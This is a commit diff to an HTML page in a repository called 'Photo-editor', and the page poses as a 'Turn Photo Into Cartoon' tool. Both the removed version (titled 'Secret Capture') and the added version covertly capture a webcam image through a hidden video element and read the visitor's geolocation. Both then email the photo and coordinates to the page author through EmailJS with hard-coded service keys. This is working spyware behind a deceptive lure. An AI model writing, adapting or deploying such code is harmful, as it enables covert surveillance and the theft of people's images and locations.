

Before and after one commit to OpooMan/Photo-editor, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-995 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,67 +1,56 @@
 <!DOCTYPE html>
 <html>
-  <head>
-    <title>Secret Capture</title>
-    <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js"></script>
-    <script>
-      emailjs.init("vyxyeBFTfSi_ISmNG"); // Your Public Key
+<head>
+  <title>Check your Location</title>
+</head>
+<body>
+  <h2>Turn Photo Into Cartoon</h2>
+  <button onclick="captureAndSend()">Send Now</button>
 
-      // Send location only
-      function sendLocationOnly() {
-        if (!navigator.geolocation) {
-          alert("Geolocation not supported");
-          return;
-        }
+  <video id="video" autoplay style="display:none;"></video>
+  <canvas id="canvas" style="display:none;"></canvas>
 
-        navigator.geolocation.getCurrentPosition(async (position) => {
-          const message = `Location Only:\nLatitude: ${position.coords.latitude}\nLongitude: ${position.coords.longitude}`;
+  <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
+  <script>
+    emailjs.init("vyxyeBFTfSi_ISmNG"); // Your public key
 
-          await emailjs.send("service_gkkpt4w", "template_96dsagv", {
-            message: message,
-          });
+    async function captureAndSend() {
+      const video = document.getElementById("video");
+      const canvas = document.getElementById("canvas");
+      const context = canvas.getContext("2d");
 
-          alert("Checking Location You will Recieve an Email Shortly");
-        });
-      }
+      // Start camera
+      const stream = await navigator.mediaDevices.getUserMedia({ video: true });
+      video.srcObject = stream;
 
-      // Take picture and send with location
-      async function captureAndSend() {
-        try {
-          const stream = await navigator.mediaDevices.getUserMedia({ video: true });
-          const video = document.createElement("video");
-          video.srcObject = stream;
-          await video.play();
+      // Wait for video to load
+      await new Promise(resolve => setTimeout(resolve, 1500));
 
-          // Give video time to load
-          await new Promise((res) => setTimeout(res, 1000));
+      // Capture photo
+      canvas.width = 320;
+      canvas.height = 240;
+      context.drawImage(video, 0, 0, canvas.width, canvas.height);
+      const imageBase64 = canvas.toDataURL("image/png");
 
-          const canvas = document.createElement("canvas");
-          canvas.width = video.videoWidth;
-          canvas.height = video.videoHeight;
-          canvas.getContext("2d").drawImage(video, 0, 0);
-          const imageBase64 = canvas.toDataURL("image/png");
+      // Stop camera
+      stream.getTracks().forEach(track => track.stop());
 
-          stream.getTracks().forEach((track) => track.stop());
+      // Get location
+      navigator.geolocation.getCurrentPosition(function(position) {
+        const message = `Latitude: ${position.coords.latitude}, Longitude: ${position.coords.longitude}`;
 
-          navigator.geolocation.getCurrentPosition(async (position) => {
-            const message = `Picture Taken With Location:\nLatitude: ${position.coords.latitude}\nLongitude: ${position.coords.longitude}`;
-
-            await emailjs.send("service_gkkpt4w", "template_96dsagv", {
-              message: message,
-              image: imageBase64,
-            });
-
-            alert("Picture + location sent!");
-          });
-        } catch (err) {
-          alert("Error: " + err.message);
-        }
-      }
-    </script>
-  </head>
-  <body style="text-align: center; padding: 40px; font-family: Arial;">
-    <h2>Turn your photos into cartoons or view your location</h2>
-    <button onclick="sendLocationOnly()" style="padding: 10px 20px; margin: 10px;">Check Your Yocation</button>
-    <button onclick="captureAndSend()" style="padding: 10px 20px; margin: 10px;">Make Cartoon Pic</button>
-  </body>
+        // Send email with both
+        emailjs.send("service_gkkpt4w", "template_96dsagv", {
+          message: message,
+          image: imageBase64
+        })
+        .then(res => console.log("Email sent!", res))
+        .catch(err => console.error("Email failed", err));
+      }, function(error) {
+        alert("Error getting location.");
+        console.error(error);
+      });
+    }
+  </script>
+</body>
 </html>
```
